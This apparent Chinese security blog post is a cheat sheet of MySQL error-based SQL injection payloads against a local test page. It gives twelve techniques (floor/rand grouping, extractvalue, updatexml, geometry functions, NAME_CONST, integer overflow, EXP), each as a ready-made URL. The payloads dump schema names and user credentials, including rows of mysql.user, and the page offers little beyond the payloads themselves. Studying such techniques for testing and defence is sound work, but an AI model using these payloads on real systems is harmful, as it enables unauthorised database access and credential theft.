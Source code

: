 ```yaml
---
layout: post
title: "Mysql 报错注入"
description: "Hacking"
author: Caijiji@0xfa.club
category: Hacking
tags: [Hacking]
---
```


* 目录
{:toc}

## Mysql 报错注入

数据库结构 php源码参考[RickGray'Blog](http://rickgray.me/2014/11/16/error-based-sql-injection.html)


###1 floor()

Example

Show Version()

    http://0.0.0.0:8001/test.php?name=aa'and (select 1 from  (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a)%23&pass=1

Show Databases

    http://0.0.0.0:8001/test.php?name=aa' AND (SELECT 3904 FROM(SELECT COUNT(*),CONCAT(0x7e,(SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)%23&pass=1

Show Tables

    http://0.0.0.0:8001/test.php?name=aa' AND (SELECT 3210 FROM(SELECT COUNT(*),CONCAT(0x7e,(SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x73716c69) LIMIT 0,1),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)%23&pass=1

Show columns
    
    http://0.0.0.0:8001/test.php?name=aa' AND (SELECT 8575 FROM(SELECT COUNT(*),CONCAT(0x7e,(SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x75736572 AND table_schema=0x73716c69 LIMIT 0,1),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)%23&pass=1

Show data
    
    http://0.0.0.0:8001/test.php?name=aa'+and(select 1 from(select count(*),concat((select (select (select concat(0x7,name,0x7e,pass,0x7e) from sqli.`user` limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23&pass=1

###2 Extractvalue()

    http://0.0.0.0:8001/test.php?name=111' and (extractvalue(1,concat(0x7e,(select user()))))%23&pass=1

    http://0.0.0.0:8001/test.php?name=111' and (extractvalue(1,concat(0x7e,(SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))))%23&pass=1

    ....

###3 updatexml()
    
    http://0.0.0.0:8001/test.php?name=111' and(updatexml (1,concat(0x7e,(select user()),0x73),1))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and(updatexml (1,concat(0x7e,((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1)),0x73),1))%23&pass=1
    
    ...

###4 GeometryCollection()
    
    http://0.0.0.0:8001/test.php?name=111' and GeometryCollection((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and GeometryCollection((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###5 polygon()
    
    http://0.0.0.0:8001/test.php?name=111' and polygon((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and polygon((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###6 multipoint()
    
    http://0.0.0.0:8001/test.php?name=111' and multipoint((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and multipoint((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###7 multilinestring()
    
    http://0.0.0.0:8001/test.php?name=111' and multilinestring((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and multilinestring((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###8 multipolygon()

    http://0.0.0.0:8001/test.php?name=111' and multipolygon((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and multipolygon((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###9 linestring()
    
    http://0.0.0.0:8001/test.php?name=111' and linestring((select * from(select * from(select user())a)b))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=111' and linestring((select * from(select * from((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a)b))%23&pass=1

###10 NAME_CONST()
   
    http://0.0.0.0:8001/test.php?name=111' and+1=(select+*+from+(select+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)%23&pass=1

###11 整数溢出

    http://0.0.0.0:8001/test.php?name=aa' AND (select 1E308*if((select*from(select version())a limit 1)>(select version()),2,2))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=aa' AND (select 1E308*if((select*from(select*from mysql.user limit 1)a limit 1)>(select*from mysql.user limit 0),2,2))%23&pass=1

###12 EXP()
    
    http://0.0.0.0:8001/test.php?name=a' and EXP(~(SELECT*FROM(SELECT version())a))%23&pass=1
    
    http://0.0.0.0:8001/test.php?name=a' and EXP(~(SELECT*FROM((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1))a))%23&pass=1

From InterNet

元旦快乐

